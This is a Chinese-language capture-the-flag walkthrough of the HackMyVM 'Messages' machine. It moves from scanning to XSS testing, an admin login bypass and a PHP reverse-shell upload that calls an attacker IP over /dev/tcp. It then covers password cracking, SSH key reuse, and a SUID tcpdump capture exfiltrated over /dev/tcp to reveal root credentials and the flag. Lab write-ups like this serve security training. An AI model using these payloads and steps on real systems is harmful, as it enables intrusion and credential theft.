

> 靶机地址：https://hackmyvm.eu/machines/machine.php?vm=Messages

### 环境准备

vmware kali  桥接

virutalbox messages 桥接



### nmap扫描

简单端口扫描

```bash
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 172.168.102.66
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-23 02:00 EST
Nmap scan report for 172.168.102.66
Host is up (0.00040s latency).
Not shown: 65525 filtered tcp ports (no-response)
PORT    STATE SERVICE
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
110/tcp open  pop3
143/tcp open  imap
443/tcp open  https
465/tcp open  smtps
587/tcp open  submission
993/tcp open  imaps
995/tcp open  pop3s

Nmap done: 1 IP address (1 host up) scanned in 13.59 seconds
```

详细信息扫描

```bash
┌──(kali㉿kali)-[~]                                                             
└─$ sudo nmap -sT -sV -O -p22,25,80,110,143,465,587,993,995,443 172.168.102.66  
sudo: unable to resolve host kali: Temporary failure in name resolution         
[sudo] password for kali:                                                       
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-23 02:17 EST                 
Nmap scan report for 172.168.102.66                                             
Host is up (0.00042s latency).                                                  
                                                                                
PORT    STATE SERVICE  VERSION                                                  
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5 (protocol 2.0)                    
25/tcp  open  smtp     Postfix smtpd                                            
80/tcp  open  http     nginx                                                    
110/tcp open  pop3     Dovecot pop3d                                            
143/tcp open  imap     Dovecot imapd                                            
443/tcp open  ssl/http nginx                                                    
465/tcp open  ssl/smtp Postfix smtpd                                           
587/tcp open  smtp     Postfix smtpd                                            
993/tcp open  imaps?                                                            
995/tcp open  pop3s?                                                            
MAC Address: 08:00:27:D8:C2:A6 (Oracle VirtualBox virtual NIC) 
Warning: OSScan results may be unreliable because we could not find at least 1 
pen and 1 closed port                                                           
Device type: general purpose                                                    
Running: Linux 4.X|5.X                                                          
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5                 
OS details: Linux 4.15 - 5.6, Linux 5.0 - 5.4                                   
Network Distance: 1 hop                                                         
Service Info: Hosts: -mx.messages.hmv,  mx.messages.hmv; OS: Linux; CPE: cpe:/o:
linux:linux_kernel                                                              
                                                                                
OS and Service detection performed. Please report any incorrect results at https
://nmap.org/submit/ .                                                           
Nmap done: 1 IP address (1 host up) scanned in 18.68 seconds 
```

nmap扫描没有什么有用的信息


### Web渗透

访问`80`端口


点击`Chatbot`，存在XSS漏洞

```js
<script>alert('sectest')</script>
```


访问`Webmail`是一个登录框，使用`万能用户名`测试，不存在SQL注入

#### 目录扫描

```bash
 dirb https://172.168.102.66/chatbot/
```


发现`/chatbot/admin/`也是一个登录界面，使用万能用户名登录成功！


在`Settings`中找到上传文件的位置


直接上传php木马，并没有对上传的文件做检测

```bash
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/172.168.102.69/4567 0>&1'"); ?>
```

上传以后，kali监听端口，找到能够触发刚刚上传的木马的位置，点击，反弹shell

下图位置触发了反弹shell，我上传的是 `system logo`


#### 权限提升

反弹拿到的`shell`位置是在`/html/chatbot/uploads`，该位置没有有用的东西，返回上一级查看，找到一个`config.php`


`config.php`包含了三个文件,挨个查看


` initialize.php`文件中发现了数据库账号密码`chatbot:chatbot`


但是在连接Mysql的时候发现好像不太正常，没有正确显示


可以输入一下命令，再去连接MySQL，就可以成功！

```bash
/usr/bin/script -qc /bin/bash /dev/null
```


在`vmail`库中的`mailbox`表中找到几个邮箱


密码都做了加密处理

`john`解密出`ruby@messages.hmv`邮箱的密码`Ruby.r123`

```bash
john passwd --wordlist=/usr/share/wordlists/rockyou.txt
```


网站去首页登录


发现了`root`发送的邮箱


找到私钥，保存到`id_rsa`里，赋予`600`权限，必须是`600`权限不能赋予过大


ssh连接`ruby`

> 靶机这里由于网络环境，ip发生变化


查看当前目录，并查看`suid`


发现可疑的`tcpdump`，监听本地回环网卡

```bash
/usr/bin/tcpdump -i lo -w saury.pcap
```

因为在前面了解到只能用`127.0.0.1`


运行后，等一会，然后`ctrl+c`结束抓包


完事后，将`saury.pcap`下载到kali本地上

kali监听 

```bash
nc -lvvp 4567 > saury.pcap
```

靶机上进行局域网传输

```bash
cat saury.pcap > /dev/tcp/192.168.1.103/4567
```


局域网传文件完成


这个时候可以用`wireshark`去分析`saury.pcap`，也可以用`string`命令字提取其中的字符串

```bash
strings saury.pcap | grep "user"
```


```bash
 strings saury.pcap | grep "pass"
```


`Th1$isR3411yS3cuRe`


`HMV{root:messages.hmv:5d3db63bba}`

